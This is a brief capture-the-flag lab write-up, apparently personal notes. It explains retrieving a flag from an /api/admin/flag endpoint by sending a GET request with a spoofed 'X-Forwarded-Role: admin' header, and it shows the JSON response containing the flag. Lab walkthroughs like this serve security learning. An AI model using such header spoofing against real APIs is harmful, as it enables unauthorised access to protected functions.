

start the lab
the html page with api doc we get we need to use the postman to send to
/api/admin/flag get request

then we set the header to
X-Forwarded-Role: admin

and we get the flag

response json we got
{
"flag": "ctf7{API_fate_way_cbfe713a}",
"message": "Welcome, administrator",
"status": "success"
}
